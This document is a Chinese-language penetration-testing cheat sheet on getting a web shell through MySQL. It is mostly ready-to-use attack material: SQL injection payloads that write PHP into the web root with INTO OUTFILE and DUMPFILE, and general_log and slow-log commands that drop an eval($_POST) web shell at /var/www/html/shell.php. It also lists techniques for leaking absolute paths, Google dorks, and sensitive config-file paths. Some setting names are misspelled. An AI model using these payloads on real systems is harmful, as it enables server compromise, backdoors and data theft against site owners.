

# 文件导出函数GetShell

## 利用条件

- 数据库当前用户为`root`权限
- 知道当前网站的绝对路径
- PHP的GPC为off状态
- 写入的那个歌路径存在写入权限

## 基于联合查询时

```mysql
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile '网站根目录绝对路径'-- qwe
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile '网站根目录绝对路径'-- qwe
```

## 非联合查询

```mysql
?id=1 into outfile '网站根目录绝对路径' FIELDS TERMINATED BY '<?php phpinfo();?>'-- qwe
```

这个语句的意思是，导出当前数据表到xxx文件中，数据表中的字段以`<?php phpinfo();?>`分隔

形如：

```
id username password 导出后会变成
id<?php phpinfo();?>username<?php phpinfo();?>password
```

## outfile和dumpfile的区别

`outfile:`

1. 支持多行数据同时导出
2. 使用union联合查询时，要保证两侧查询的列数相同
3. 会在换行符制表符后面追加反斜杠
4. 会在末尾追加换行

`dumpfile:`

1. 每次只能导出一行数据
2. 不会在换行符制表符后面追加反斜杠
3. 不会在末尾追加换行

因此，`dumpfile`函数这个函数来顺利写入二进制文件，当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效），当使用`dumpfile`函数时，应该手动添加limit限制来获取不同的行数。

## secure_file_prive

写文件提权，终究是离不开这个配置项：

```
secure_file_prive= ，结果为空的话，表示允许任何文件读写

secure_file_prive=NULL，表示不允许任何文件读写

secure_file_prive=‘某个路径’，表示这个路径作为文件读写的路径

在mysql5.5版本前，都是默认为空，允许读取

在mysql5.6版本后 ,默认为NULL，并且无法用SQL语句对其进行修改。所以这种只能在配置进行修改。
```

查询该参数配置的情况：

```mysql
show global variables like "%secure%";
```

利用sql语句修改配置项（5.6版本以前，临时修改重启失效）：

```mysql
set global secure_file_prive=""
```

`5.6`版本以后，只能利用配置项修改：



# 日志GetShell

## 全局日志Getshell

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来

```mysql
# 查看日志是否开启
show variables like 'general_log';

# 开启日志功能
set global geeral_log=on;

# 查看文件日志保存位置
show variables like 'general_log_file';

# 设置日志保存位置（getshell的话存放在网站根目录，名为.php）
set global general_log_file='/var/www/html/shell.php';

# 查看日志输出类型 table：将日志存入数据库的日志表中；file：将日志存入文件中
show variables like 'log_output';

# 修改日志存储类型
set global log_output='table/file';
```

GetShell方式：

```mysql
set global geeral_log=on;
set global general_log_file='/var/www/html/shell.php';
select '<?php eval($_POST[8]);?>'
```

## 慢日志GetShell

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式

```mysql
# 查看服务器默认时间值方式
show global variables like '%long_query_time%'
show global variables like '%long%'

# 查看慢日志参数
show global variable like '%slow%';
```

GetShell方式：

```mysql
# 打开慢日志
set global slow_query_log=on

# 设置慢日志路径
set global slow_query_log_file='/var/www/html/shell.php'

# 记录到日志中的语句
select '<?php @eval($_POST[8]);?>' or sleep(20)
```

# 爆绝对路径的方法

上述的提权方式都离不开知道网站的绝对路径，下面是一些得到绝对路径的方法。

## 单引号爆路径

- 直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
   `www.xxx.com/news.php?id=1′`

## 错误参数值爆路径

- 将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
   `www.xxx.com/researcharchive.php?id=-1`

## Google爆路径

- 结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

```
Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
```

## 测试文件爆路径

- 很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

## phpmyadmin爆路径

- 一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

```
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

## 配置文件找路径

- 如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

```
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

# Linux

为什么要把Linux单独提出来说，因为Linux的权限控制很严格，有的时候即使我们完全控住了MYSQL 但是 没有对网站根目录的读写权限，也会很没有办法去利用上述方法写shell
